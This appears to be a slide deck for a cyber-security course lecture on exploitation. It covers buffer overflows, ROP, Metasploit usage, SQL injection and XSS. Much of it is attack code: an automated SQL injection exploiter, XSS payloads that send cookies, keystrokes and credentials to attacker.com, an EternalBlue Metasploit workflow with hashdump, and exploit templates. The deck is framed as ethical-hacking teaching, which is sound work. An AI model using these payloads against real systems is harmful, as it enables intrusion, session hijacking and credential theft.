

# Exploitation Techniques and Methodologies
## Unit IV: Ethical Hacking
### Lecture 27: From Vulnerability Discovery to System Compromise

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Semester V | Diploma ICT | Author: Milav Dabgar
</div>

---
layout: default
---

# Understanding Exploitation

<div class="grid grid-cols-2 gap-6">

<div>

## ⚔️ What is Exploitation?

**Exploitation** is the process of taking advantage of vulnerabilities in systems, applications, or networks to gain unauthorized access, escalate privileges, or compromise system integrity.

### 🎯 Exploitation Objectives
- **Gain initial access** to target systems or networks
- **Escalate privileges** from limited to administrative access
- **Maintain persistence** to ensure continued access
- **Move laterally** through network infrastructure
- **Exfiltrate data** or accomplish mission objectives
- **Demonstrate impact** of security vulnerabilities

### 📊 Exploitation Statistics
- **Time from vulnerability disclosure to exploit**: 15 days average
- **Successful exploitation rate**: 68% of known vulnerabilities
- **Zero-day exploits discovered annually**: 2,000+ (2023)
- **Time to patch critical vulnerabilities**: 97 days average
- **Cost of successful breach**: $4.45 million average
- **Most exploited vulnerability types**: Injection (32%), Broken Authentication (18%)

### 🔄 Exploitation Lifecycle


### 💡 Ethical Exploitation Principles
```yaml
Authorized Testing Only:
  - Written permission required
  - Scope clearly defined
  - Legal boundaries respected
  - Professional conduct maintained
  - Documentation comprehensive
  - Client interests protected

Risk Mitigation:
  - Minimal system disruption
  - Data protection ensured
  - Service availability maintained
  - Rollback procedures prepared
  - Emergency contacts available
  - Business operations considered

Professional Standards:
  - Industry best practices followed
  - Methodical approach maintained
  - Evidence preservation ensured
  - Confidentiality protected
  - Responsible disclosure practiced
  - Remediation support provided
```

</div>

<div>

## 🎭 Types of Exploits

### 🌐 Remote Exploits
```yaml
Network-Based Exploits:
  Service Exploits:
    - Buffer overflow vulnerabilities
    - Protocol implementation flaws
    - Authentication bypass
    - Injection vulnerabilities
    - Configuration weaknesses
  
  Web Application Exploits:
    - SQL injection attacks
    - Cross-site scripting (XSS)
    - Remote file inclusion (RFI)
    - Deserialization attacks
    - Business logic flaws
  
  Characteristics:
    - No physical access required
    - Can be executed over networks
    - Often automated and scalable
    - High detectability risk
    - Firewall and IPS challenges
```

### 🏠 Local Exploits
```yaml
System-Level Exploits:
  Privilege Escalation:
    - Kernel vulnerabilities
    - SUID/SGID abuse
    - DLL hijacking
    - Registry manipulation
    - Service misconfiguration
  
  Application Exploits:
    - Binary exploitation
    - Memory corruption
    - Race conditions
    - Symbolic link attacks
    - Configuration file abuse
  
  Characteristics:
    - Requires initial access
    - System-specific payloads
    - Higher success probability
    - Lower detection likelihood
    - Physical or remote shell needed
```

### ⚡ Zero-Day Exploits
```yaml
Advanced Threat Characteristics:
  Development Requirements:
    - Deep technical expertise
    - Reverse engineering skills
    - Advanced debugging tools
    - Significant time investment
    - Testing infrastructure
  
  Exploit Attributes:
    - Unknown to security vendors
    - No available patches
    - High success probability
    - Valuable in underground markets
    - Used in targeted attacks
  
  Detection Challenges:
    - Signature-based detection fails
    - Behavioral analysis required
    - Threat intelligence critical
    - Proactive defense necessary
    - Incident response complexity
```

### 🔧 Exploit Development Process
```python
# Exploit Development Framework (Educational)
class ExploitDevelopmentFramework:
    def __init__(self, target_vulnerability):
        self.vulnerability = target_vulnerability
        self.exploit_code = None
        self.payload = None
        self.delivery_method = None
        
    def vulnerability_analysis(self):
        """Phase 1: Analyze vulnerability characteristics"""
        analysis = {
            'vulnerability_type': self.identify_vuln_type(),
            'attack_vector': self.determine_attack_vector(),
            'complexity': self.assess_complexity(),
            'prerequisites': self.identify_prerequisites(),
            'constraints': self.identify_constraints()
        }
        
        print("[*] Vulnerability Analysis:")
        for key, value in analysis.items():
            print(f"    {key}: {value}")
        
        return analysis
    
    def identify_vuln_type(self):
        """Categorize vulnerability type"""
        vuln_types = {
            'buffer_overflow': 'Memory corruption allowing code execution',
            'sql_injection': 'Database query manipulation',
            'xss': 'Client-side script injection',
            'rfi': 'Remote file inclusion vulnerability',
            'auth_bypass': 'Authentication mechanism bypass',
            'privilege_escalation': 'Unauthorized privilege elevation',
            'deserialization': 'Unsafe object deserialization'
        }
        
        # Analysis logic would determine actual type
        return vuln_types.get(self.vulnerability.get('type', 'unknown'), 'Unknown')
    
    def exploit_proof_of_concept(self):
        """Phase 2: Develop proof of concept"""
        print("[*] Developing Proof of Concept...")
        
        poc_stages = [
            self.crash_reproduction,
            self.control_flow_analysis,
            self.payload_space_analysis,
            self.exploit_reliability_testing
        ]
        
        results = {}
        for stage in poc_stages:
            stage_name = stage.__name__
            print(f"    [+] {stage_name}")
            results[stage_name] = stage()
        
        return results
    
    def crash_reproduction(self):
        """Reproduce the vulnerability crash"""
        crash_data = {
            'reproducible': True,
            'crash_conditions': 'Specific input patterns required',
            'crash_point': 'Function return address overwrite',
            'registers_controlled': ['EIP', 'ESP'],
            'memory_layout': 'Stack-based buffer overflow'
        }
        
        return crash_data
    
    def control_flow_analysis(self):
        """Analyze control flow hijacking potential"""
        control_analysis = {
            'eip_control': 'Full instruction pointer control',
            'stack_control': 'Stack pointer manipulation possible',
            'return_address': 'Return address overwrite confirmed',
            'gadget_availability': 'ROP gadgets identified',
            'aslr_bypass': 'Address space layout randomization analysis'
        }
        
        return control_analysis
    
    def payload_development(self):
        """Phase 3: Develop exploit payload"""
        print("[*] Payload Development:")
        
        payload_components = {
            'shellcode': self.generate_shellcode(),
            'nop_sled': self.create_nop_sled(),
            'return_address': self.calculate_return_address(),
            'padding': self.calculate_padding(),
            'encoding': self.apply_encoding()
        }
        
        return payload_components
    
    def generate_shellcode(self):
        """Generate payload shellcode"""
        # Educational example - actual shellcode would be binary
        shellcode_examples = {
            'reverse_shell': '''
                # Reverse shell payload (x86)
                # Connect back to attacker system
                mov eax, 0x66          # socketcall
                mov ebx, 1             # SYS_SOCKET
                push 0x6               # IPPROTO_TCP
                push 0x1               # SOCK_STREAM  
                push 0x2               # AF_INET
                mov ecx, esp
                int 0x80               # system call
                ''',
            'bind_shell': '''
                # Bind shell payload (x86)
                # Listen on specific port
                mov eax, 0x66          # socketcall
                mov ebx, 1             # SYS_SOCKET
                push 0x6               # IPPROTO_TCP
                push 0x1               # SOCK_STREAM
                push 0x2               # AF_INET
                mov ecx, esp
                int 0x80               # system call
                ''',
            'meterpreter': '''
                # Meterpreter payload
                # Advanced post-exploitation framework
                # Multi-stage payload with encrypted communications
                # Reflective DLL injection for stealth
                '''
        }
        
        return shellcode_examples
    
    def create_nop_sled(self):
        """Create NOP sled for reliable exploitation"""
        nop_sled = {
            'purpose': 'Increase exploitation reliability',
            'x86_nops': '\\x90' * 100,  # NOP instruction
            'alternative_nops': [
                '\\x40',  # INC EAX
                '\\x41',  # INC ECX
                '\\x42',  # INC EDX
                '\\x43'   # INC EBX
            ],
            'length': 100,
            'placement': 'Before shellcode payload'
        }
        
        return nop_sled
    
    def exploitation_techniques(self):
        """Phase 4: Advanced exploitation techniques"""
        techniques = {
            'stack_overflow': self.stack_buffer_overflow,
            'heap_overflow': self.heap_buffer_overflow,
            'format_string': self.format_string_exploit,
            'rop_chain': self.return_oriented_programming,
            'aslr_bypass': self.aslr_bypass_techniques,
            'dep_bypass': self.data_execution_prevention_bypass
        }
        
        return techniques
    
    def stack_buffer_overflow(self):
        """Stack-based buffer overflow exploitation"""
        technique = {
            'name': 'Stack Buffer Overflow',
            'description': 'Overwrite return address on stack',
            'requirements': [
                'Vulnerable function with stack buffer',
                'No stack canaries or DEP',
                'Predictable memory layout',
                'Controlled input length'
            ],
            'exploitation_steps': [
                '1. Calculate buffer offset to return address',
                '2. Create payload with NOP sled and shellcode',
                '3. Overwrite return address with shellcode location',
                '4. Trigger vulnerability with crafted input',
                '5. Execute payload and establish control'
            ],
            'payload_structure': '''
                [BUFFER_FILL][NOP_SLED][SHELLCODE][RET_ADDR]
                |-- Offset --|-- 100B --|-- 200B --|-- 4B --|
            ''',
            'example_exploit': '''
                # Stack overflow exploit template
                buffer_size = 256
                offset_to_ret = 268
                nop_sled = "\\x90" * 100
                shellcode = "\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68..."
                return_addr = "\\xef\\xbe\\xad\\xde"  # 0xdeadbeef
                
                payload = "A" * offset_to_ret + return_addr + nop_sled + shellcode
            '''
        }
        
        return technique
    
    def return_oriented_programming(self):
        """ROP chain exploitation technique"""
        technique = {
            'name': 'Return-Oriented Programming (ROP)',
            'description': 'Chain existing code gadgets to bypass DEP',
            'purpose': 'Execute arbitrary code without injecting shellcode',
            'requirements': [
                'DEP/NX bit enabled system',
                'Available ROP gadgets in memory',
                'Control over stack contents',
                'Knowledge of memory layout'
            ],
            'gadget_types': {
                'pop_ret': 'pop reg; ret - Load values into registers',
                'mov_ret': 'mov [reg1], reg2; ret - Memory operations',
                'add_ret': 'add reg1, reg2; ret - Arithmetic operations',
                'jmp_reg': 'jmp reg - Transfer control to register',
                'syscall': 'int 0x80 or syscall - System calls'
            },
            'rop_chain_example': '''
                # ROP chain to execute execve("/bin/sh", NULL, NULL)
                rop_chain = [
                    0x08048556,  # pop eax; ret
                    0x0000000b,  # execve syscall number
                    0x08048558,  # pop ebx; ret  
                    0x08049000,  # address of "/bin/sh" string
                    0x0804855a,  # pop ecx; ret
                    0x00000000,  # NULL
                    0x0804855c,  # pop edx; ret
                    0x00000000,  # NULL
                    0x08048560,  # int 0x80; ret - make syscall
                ]
            '''
        }
        
        return technique

# Metasploit Framework Integration Example
class MetasploitIntegration:
    def __init__(self):
        self.framework_commands = {
            'search': 'search type:exploit platform:windows',
            'use': 'use exploit/windows/smb/ms17_010_eternalblue',
            'set_target': 'set RHOSTS 192.168.1.100',
            'set_payload': 'set PAYLOAD windows/x64/meterpreter/reverse_tcp',
            'set_lhost': 'set LHOST 192.168.1.50',
            'exploit': 'exploit -j'
        }
    
    def demonstrate_framework_usage(self):
        """Demonstrate Metasploit framework usage"""
        demo = f"""
METASPLOIT FRAMEWORK EXPLOITATION WORKFLOW
========================================

1. VULNERABILITY RESEARCH:
   msf6 > search ms17-010
   msf6 > info exploit/windows/smb/ms17_010_eternalblue

2. EXPLOIT CONFIGURATION:
   msf6 > use exploit/windows/smb/ms17_010_eternalblue
   msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
   msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.100

3. PAYLOAD SELECTION:
   msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads
   msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.50

4. EXPLOITATION:
   msf6 exploit(windows/smb/ms17_010_eternalblue) > check
   msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

5. POST-EXPLOITATION:
   meterpreter > sysinfo
   meterpreter > getuid
   meterpreter > hashdump
   meterpreter > shell
        """
        
        return demo
    
    def custom_exploit_development(self):
        """Template for custom exploit development"""
        exploit_template = '''
##
# Custom Exploit Module Template
# Educational purposes only
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Custom Vulnerability Exploit',
      'Description'    => 'Exploits custom vulnerability for demonstration',
      'Author'         => ['Security Researcher'],
      'License'        => MSF_LICENSE,
      'References'     => [
        ['CVE', '2023-XXXX'],
        ['URL', 'https://example.com/advisory']
      ],
      'Platform'       => 'windows',
      'Targets'        => [
        ['Windows XP/Vista/7/8/10', { 'Ret' => 0x7c911190 }]
      ],
      'Payload'        => {
        'Space'    => 400,
        'BadChars' => "\\x00\\x0a\\x0d"
      },
      'DisclosureDate' => '2023-01-01',
      'DefaultTarget'  => 0
    ))

    register_options([
      Opt::RPORT(9999)
    ])
  end

  def check
    # Vulnerability detection logic
    connect
    sock.put("CHECK\\n")
    response = sock.get_once
    disconnect
    
    if response && response.include?("VULNERABLE")
      return Exploit::CheckCode::Vulnerable
    else
      return Exploit::CheckCode::Safe
    end
  end

  def exploit
    # Exploitation logic
    print_status("Generating payload...")
    
    buffer = "A" * 1024  # Buffer overflow trigger
    buffer += [target.ret].pack('V')  # Return address
    buffer += payload.encoded  # Shellcode payload
    
    print_status("Sending exploit...")
    connect
    sock.put(buffer)
    
    handler
    disconnect
  end
end
        '''
        
        return exploit_template
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 27 | Author: Milav Dabgar
</div>

---
layout: default
---

# Web Application Exploitation

<div class="grid grid-cols-2 gap-6">

<div>

## 🌐 SQL Injection Exploitation

### 💉 SQL Injection Fundamentals
```yaml
SQL Injection Types:
  Union-Based Injection:
    - Extract data using UNION queries
    - Requires knowledge of column count
    - Direct data retrieval possible
    - Error messages provide feedback
    
  Boolean-Based Blind:
    - True/False response analysis
    - Character-by-character extraction
    - Time-intensive process
    - Minimal error information
    
  Time-Based Blind:
    - Response time analysis
    - Delay functions for confirmation
    - Slower than boolean-based
    - Works with minimal feedback
    
  Error-Based Injection:
    - Database error message exploitation
    - Information disclosure through errors
    - Faster than blind techniques
    - Database-specific error handling
```

### 🛠️ SQL Injection Exploitation Tools
```python
#!/usr/bin/env python3
"""
SQL Injection Exploitation Framework
Educational purposes - Use with authorization only
"""

import requests
import time
import string
import urllib.parse
from concurrent.futures import ThreadPoolExecutor

class SQLInjectionExploiter:
    def __init__(self, target_url, parameter, method='GET'):
        self.target_url = target_url
        self.parameter = parameter
        self.method = method.upper()
        self.session = requests.Session()
        self.injection_confirmed = False
        self.database_type = None
        self.extracted_data = {}
        
        # Database-specific payloads
        self.db_payloads = {
            'mysql': {
                'version': 'VERSION()',
                'user': 'USER()',
                'database': 'DATABASE()',
                'tables': "SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE()",
                'columns': "SELECT column_name FROM information_schema.columns WHERE table_name='{}'"
            },
            'postgresql': {
                'version': 'version()',
                'user': 'current_user',
                'database': 'current_database()',
                'tables': "SELECT tablename FROM pg_tables WHERE schemaname='public'",
                'columns': "SELECT column_name FROM information_schema.columns WHERE table_name='{}'"
            },
            'mssql': {
                'version': '@@version',
                'user': 'SYSTEM_USER',
                'database': 'DB_NAME()',
                'tables': "SELECT name FROM sysobjects WHERE xtype='U'",
                'columns': "SELECT name FROM syscolumns WHERE id=OBJECT_ID('{}')"
            },
            'oracle': {
                'version': 'banner FROM v$version',
                'user': 'USER',
                'database': 'SYS.DATABASE_NAME',
                'tables': "SELECT table_name FROM all_tables",
                'columns': "SELECT column_name FROM all_tab_columns WHERE table_name='{}'"
            }
        }
    
    def test_injection_vulnerability(self):
        """Test for SQL injection vulnerability"""
        print(f"[*] Testing SQL injection in parameter '{self.parameter}'")
        
        # Basic injection tests
        test_payloads = [
            "'",                          # Single quote
            "' OR '1'='1",               # Always true condition
            "' OR '1'='1' --",           # With comment
            "' UNION SELECT 1,2,3--",    # Union injection
            "'; WAITFOR DELAY '0:0:5'--", # Time-based (MSSQL)
            "' OR SLEEP(5)--",           # Time-based (MySQL)
        ]
        
        # Baseline request (normal response)
        baseline_response = self.send_request("1")
        baseline_time = baseline_response.get('response_time', 0)
        baseline_length = len(baseline_response.get('content', ''))
        
        print(f"  [+] Baseline response time: {baseline_time:.2f}s")
        print(f"  [+] Baseline content length: {baseline_length}")
        
        for payload in test_payloads:
            response = self.send_request(payload)
            response_time = response.get('response_time', 0)
            content_length = len(response.get('content', ''))
            
            # Check for error-based injection
            if self.check_sql_errors(response['content']):
                print(f"  [+] Error-based injection detected: {payload}")
                self.injection_confirmed = True
                return True
            
            # Check for time-based injection
            if response_time > baseline_time + 4:  # 5 second delay minus tolerance
                print(f"  [+] Time-based injection detected: {payload}")
                self.injection_confirmed = True
                return True
            
            # Check for union-based injection
            if "UNION" in payload and content_length != baseline_length:
                print(f"  [+] Union-based injection suspected: {payload}")
                self.injection_confirmed = True
                return True
        
        print("  [-] No SQL injection detected")
        return False
    
    def check_sql_errors(self, content):
        """Check response for SQL error messages"""
        error_signatures = [
            "mysql_fetch_array",
            "mysql_num_rows",
            "PostgreSQL query failed",
            "Warning: pg_",
            "ORA-01756",
            "Microsoft OLE DB Provider for ODBC Drivers",
            "Microsoft OLE DB Provider for SQL Server",
            "[Microsoft][ODBC SQL Server Driver]",
            "[SQLServer JDBC Driver]",
            "SqlException",
            "SQLite3::SQLException",
            "sqlite3.OperationalError",
            "syntax error",
            "unexpected end of SQL command"
        ]
        
        content_lower = content.lower()
        for error in error_signatures:
            if error.lower() in content_lower:
                return True
        return False
    
    def determine_database_type(self):
        """Identify database management system"""
        print("[*] Determining database type...")
        
        db_fingerprints = {
            'mysql': [
                "' AND (SELECT 1 FROM information_schema.tables)=1--",
                "' AND @@version--"
            ],
            'postgresql': [
                "' AND (SELECT 1 FROM information_schema.tables)=1--",
                "' AND version()=version()--"
            ],
            'mssql': [
                "' AND (SELECT 1 FROM sys.tables)=1--",  
                "' AND @@version=@@version--"
            ],
            'oracle': [
                "' AND (SELECT 1 FROM dual)=1--",
                "' AND (SELECT banner FROM v$version)=(SELECT banner FROM v$version)--"
            ]
        }
        
        for db_type, payloads in db_fingerprints.items():
            for payload in payloads:
                response = self.send_request(payload)
                
                if not self.check_sql_errors(response['content']):
                    # No error suggests successful query
                    self.database_type = db_type
                    print(f"  [+] Database type identified: {db_type}")
                    return db_type
        
        print("  [-] Could not determine database type")
        return None
    
    def extract_data_union(self, query, column_count=3):
        """Extract data using UNION injection"""
        print(f"[*] Extracting data using UNION injection: {query}")
        
        # Build UNION payload
        union_payload = f"' UNION SELECT {','.join([query if i == 0 else 'NULL' for i in range(column_count)])}--"
        
        response = self.send_request(union_payload)
        
        if response['status_code'] == 200 and not self.check_sql_errors(response['content']):
            # Parse response for extracted data
            content = response['content']
            # Simple extraction - in practice, would need more sophisticated parsing
            print(f"  [+] Data extraction successful")
            return content
        else:
            print(f"  [-] UNION injection failed")
            return None
    
    def extract_data_blind(self, query, max_length=100):
        """Extract data using blind injection (boolean-based)"""
        print(f"[*] Extracting data using blind injection: {query}")
        
        extracted = ""
        charset = string.printable[:95]  # Printable ASCII characters
        
        for position in range(1, max_length + 1):
            found_char = False
            
            for char in charset:
                # Build blind injection payload
                ascii_value = ord(char)
                payload = f"' AND ASCII(SUBSTR(({query}),{position},1))={ascii_value}--"
                
                response = self.send_request(payload)
                
                # Check if condition is true (successful response without error)
                if (response['status_code'] == 200 and 
                    not self.check_sql_errors(response['content'])):
                    
                    extracted += char
                    print(f"  [+] Position {position}: '{char}' ('{extracted}')")
                    found_char = True
                    break
            
            if not found_char:
                # End of string or character not in charset
                break
        
        print(f"  [+] Extracted data: '{extracted}'")
        return extracted
    
    def enumerate_database_structure(self):
        """Enumerate database structure (tables and columns)"""
        if not self.database_type:
            self.database_type = self.determine_database_type()
        
        if not self.database_type:
            print("[!] Cannot enumerate without database type")
            return
        
        print("[*] Enumerating database structure...")
        
        # Get database version and user
        db_config = self.db_payloads[self.database_type]
        
        version = self.extract_data_union(db_config['version'])
        if version:
            print(f"  [+] Database version: {version[:100]}")
        
        user = self.extract_data_union(db_config['user'])
        if user:
            print(f"  [+] Database user: {user[:100]}")
        
        # Get table names
        tables_query = db_config['tables']
        tables = self.extract_data_union(tables_query)
        if tables:
            print(f"  [+] Tables found: {tables[:200]}")
        
        # Example: Get columns for a specific table
        if 'users' in (tables or '').lower():
            columns_query = db_config['columns'].format('users')
            columns = self.extract_data_union(columns_query)
            if columns:
                print(f"  [+] Columns in 'users' table: {columns[:200]}")
    
    def send_request(self, payload):
        """Send HTTP request with SQL injection payload"""
        start_time = time.time()
        
        if self.method == 'GET':
            params = {self.parameter: payload}
            response = self.session.get(self.target_url, params=params, timeout=15)
        else:  # POST
            data = {self.parameter: payload}
            response = self.session.post(self.target_url, data=data, timeout=15)
        
        response_time = time.time() - start_time
        
        return {
            'status_code': response.status_code,
            'content': response.text,
            'response_time': response_time,
            'headers': dict(response.headers)
        }
    
    def automated_exploitation(self):
        """Perform automated SQL injection exploitation"""
        print("Starting automated SQL injection exploitation...")
        print("=" * 60)
        
        # Step 1: Test for vulnerability
        if not self.test_injection_vulnerability():
            print("[!] No SQL injection vulnerability detected")
            return
        
        # Step 2: Determine database type
        self.determine_database_type()
        
        # Step 3: Enumerate database structure
        if self.database_type:
            self.enumerate_database_structure()
        
        # Step 4: Generate report
        return self.generate_exploitation_report()
    
    def generate_exploitation_report(self):
        """Generate SQL injection exploitation report"""
        report = f"""
SQL INJECTION EXPLOITATION REPORT
=================================

Target URL: {self.target_url}
Parameter: {self.parameter}
Method: {self.method}
Database Type: {self.database_type or 'Unknown'}

VULNERABILITY ASSESSMENT:
- SQL Injection Confirmed: {'Yes' if self.injection_confirmed else 'No'}
- Database Fingerprinting: {'Successful' if self.database_type else 'Failed'}
- Data Extraction: {'Possible' if self.injection_confirmed else 'Not Tested'}

EXPLOITATION TECHNIQUES:
- Union-based injection: {'Available' if self.database_type else 'Unknown'}
- Boolean-based blind: {'Available' if self.injection_confirmed else 'Unknown'} 
- Time-based blind: {'Available' if self.injection_confirmed else 'Unknown'}
- Error-based injection: {'Available' if self.injection_confirmed else 'Unknown'}

REMEDIATION RECOMMENDATIONS:
1. Use parameterized queries/prepared statements
2. Implement input validation and sanitization
3. Apply principle of least privilege for database accounts
4. Enable database query logging and monitoring
5. Regular security code reviews and testing
6. Web Application Firewall (WAF) implementation

IMPACT ASSESSMENT:
- Data Confidentiality: HIGH RISK
- Data Integrity: HIGH RISK  
- System Availability: MEDIUM RISK
- Compliance Impact: HIGH RISK
        """
        
        return report

# Example usage (Educational only)
if __name__ == "__main__":
    # Example vulnerable URL (for testing only)
    target_url = "http://example.com/search.php"
    parameter = "id"
    
    exploiter = SQLInjectionExploiter(target_url, parameter)
    report = exploiter.automated_exploitation()
    print(report)
```

</div>

<div>

## 🚀 Cross-Site Scripting (XSS) Exploitation

### 🎯 XSS Attack Vectors
```python
# XSS Exploitation Framework
class XSSExploiter:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.xss_vectors = {
            'reflected': [],
            'stored': [],
            'dom_based': []
        }
    
    def generate_xss_payloads(self):
        """Generate comprehensive XSS payloads"""
        payloads = {
            'basic': [
                '<script>alert("XSS")</script>',
                '',
                '<svg onload=alert("XSS")>',
                '<iframe src="javascript:alert(\'XSS\')"></iframe>',
                '<body onload=alert("XSS")>'
            ],
            'filter_evasion': [
                '<ScRiPt>alert("XSS")</ScRiPt>',
                '<script>alert(String.fromCharCode(88,83,83))</script>',
                '<SCRIPT>alert("XSS")</SCRIPT>">',
                '<script>alert(/XSS/)</script>',
                '"><script>alert("XSS")</script>',
                "'><script>alert('XSS')</script>",
                '<script>alert`XSS`</script>'
            ],
            'encoded': [
                '%3Cscript%3Ealert(%22XSS%22)%3C/script%3E',
                '&lt;script&gt;alert(&quot;XSS&quot;)&lt;/script&gt;',
                '\\u003cscript\\u003ealert(\\u0022XSS\\u0022)\\u003c/script\\u003e',
                '&#60;script&#62;alert(&#34;XSS&#34;)&#60;/script&#62;'
            ],
            'advanced': [
                '<script>fetch("/admin").then(r=>r.text()).then(d=>location="//attacker.com/?"+btoa(d))</script>',
                '<script>document.cookie="admin=true;path=/";location.reload()</script>',
                '<script>new Image().src="//attacker.com/steal.php?cookie="+document.cookie</script>',
                '<script>var x=new XMLHttpRequest();x.open("GET","/admin/users");x.send();x.onload=()=>location="//attacker.com/?data="+btoa(x.response)</script>'
            ],
            'polyglot': [
                'javascript:/*--></title></style></textarea></script></xmp><svg/onload=\'+/"/+/onmouseover=1/+/[*/[]/+alert(1)//\'>',
                '\'">><marquee></marquee></plaintext></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>\'-->"></script><script>alert(1)</script><![CDATA[<script>alert(1)</script>]]></svg>',
                '\'"--></style></script><script>alert(1)</script><!--'
            ]
        }
        
        return payloads
    
    def test_reflected_xss(self, parameters):
        """Test for reflected XSS vulnerabilities"""
        print("[*] Testing for reflected XSS...")
        
        payloads = self.generate_xss_payloads()
        
        for param in parameters:
            print(f"  [*] Testing parameter: {param}")
            
            for category, payload_list in payloads.items():
                for payload in payload_list[:3]:  # Test first 3 from each category
                    
                    # Send payload in parameter
                    params = {param: payload}
                    response = self.session.get(self.target_url, params=params)
                    
                    # Check if payload is reflected without encoding
                    if payload in response.text:
                        vulnerability = {
                            'type': 'Reflected XSS',
                            'parameter': param,
                            'payload': payload,
                            'category': category,
                            'url': f"{self.target_url}?{param}={urllib.parse.quote(payload)}",
                            'impact': 'High'
                        }
                        self.xss_vectors['reflected'].append(vulnerability)
                        print(f"    [+] Reflected XSS found: {payload[:50]}...")
                        break  # Move to next parameter
    
    def test_stored_xss(self, form_data):
        """Test for stored XSS vulnerabilities"""
        print("[*] Testing for stored XSS...")
        
        payloads = self.generate_xss_payloads()
        
        # Test basic payloads first
        for payload in payloads['basic']:
            # Submit payload via form
            data = form_data.copy()
            for field in data:
                if field not in ['csrf_token', 'submit']:
                    data[field] = payload
                    break
            
            # Submit form
            response = self.session.post(self.target_url, data=data)
            
            # Check if payload is stored and executed
            if response.status_code == 200:
                # Follow up with GET request to see if payload persists
                check_response = self.session.get(self.target_url)
                
                if payload in check_response.text:
                    vulnerability = {
                        'type': 'Stored XSS',
                        'payload': payload,
                        'form_data': data,
                        'impact': 'Critical'
                    }
                    self.xss_vectors['stored'].append(vulnerability)
                    print(f"    [+] Stored XSS found: {payload[:50]}...")
    
    def test_dom_xss(self, javascript_sinks):
        """Test for DOM-based XSS vulnerabilities"""
        print("[*] Testing for DOM-based XSS...")
        
        dom_payloads = [
            '#<script>alert("DOM XSS")</script>',
            '#',
            '#javascript:alert("DOM XSS")',
            '#"><script>alert("DOM XSS")</script>'
        ]
        
        for payload in dom_payloads:
            test_url = f"{self.target_url}{payload}"
            
            try:
                response = self.session.get(test_url)
                
                # Check for JavaScript execution context
                if 'document.location' in response.text or 'window.location' in response.text:
                    vulnerability = {
                        'type': 'DOM-based XSS',
                        'payload': payload,
                        'url': test_url,
                        'impact': 'High'
                    }
                    self.xss_vectors['dom_based'].append(vulnerability)
                    print(f"    [+] DOM XSS potential: {payload}")
                    
            except Exception as e:
                continue
    
    def generate_xss_exploit(self, xss_type='cookie_theft'):
        """Generate XSS exploit payloads for specific objectives"""
        exploits = {
            'cookie_theft': '''
                <script>
                var img = new Image();
                img.src = "//attacker.com/steal.php?cookie=" + encodeURIComponent(document.cookie);
                </script>
            ''',
            
            'session_hijacking': '''
                <script>
                var xhr = new XMLHttpRequest();
                xhr.open("POST", "//attacker.com/session", true);
                xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
                xhr.send("session=" + encodeURIComponent(document.cookie));
                </script>
            ''',
            
            'admin_action': '''
                <script>
                var xhr = new XMLHttpRequest();
                xhr.open("POST", "/admin/add-user", true);
                xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
                xhr.withCredentials = true;
                xhr.send("username=hacker&password=password123&role=admin");
                </script>
            ''',
            
            'keylogger': '''
                <script>
                document.addEventListener('keypress', function(e) {
                    var img = new Image();
                    img.src = "//attacker.com/keylog.php?key=" + encodeURIComponent(e.key);
                });
                </script>
            ''',
            
            'credential_harvesting': '''
                <script>
                var fake_form = document.createElement("div");
                fake_form.innerHTML = `
                    <form action="//attacker.com/harvest" method="POST" style="position:fixed;top:50%;left:50%;transform:translate(-50%,-50%);z-index:9999;background:white;padding:20px;border:1px solid #ccc;">
                        <h3>Session Expired - Please Login</h3>
                        <input type="text" name="username" placeholder="Username" required><br><br>
                        <input type="password" name="password" placeholder="Password" required><br><br>
                        <input type="submit" value="Login">
                    </form>
                `;
                document.body.appendChild(fake_form);
                </script>
            ''',
            
            'defacement': '''
                <script>
                document.body.innerHTML = `
                    <div style="text-align:center;margin-top:200px;">
                        <h1 style="color:red;">WEBSITE COMPROMISED</h1>
                        <p>This site has been compromised via XSS vulnerability</p>
                        <p>All user data may be at risk</p>
                    </div>
                `;
                </script>
            '''
        }
        
        return exploits.get(xss_type, exploits['cookie_theft'])
    
    def xss_exploitation_report(self):
        """Generate XSS exploitation report"""
        total_vulns = (len(self.xss_vectors['reflected']) + 
                      len(self.xss_vectors['stored']) + 
                      len(self.xss_vectors['dom_based']))
        
        report = f"""
XSS VULNERABILITY EXPLOITATION REPORT
====================================

Target: {self.target_url}
Total XSS Vulnerabilities: {total_vulns}

VULNERABILITY BREAKDOWN:
- Reflected XSS: {len(self.xss_vectors['reflected'])}
- Stored XSS: {len(self.xss_vectors['stored'])}
- DOM-based XSS: {len(self.xss_vectors['dom_based'])}

EXPLOITATION SCENARIOS:
1. Cookie Theft and Session Hijacking
2. Administrative Action Performance  
3. Credential Harvesting
4. Keystroke Logging
5. Website Defacement
6. Phishing Attack Delivery

IMPACT ASSESSMENT:
- User Session Compromise: HIGH
- Data Theft Potential: HIGH
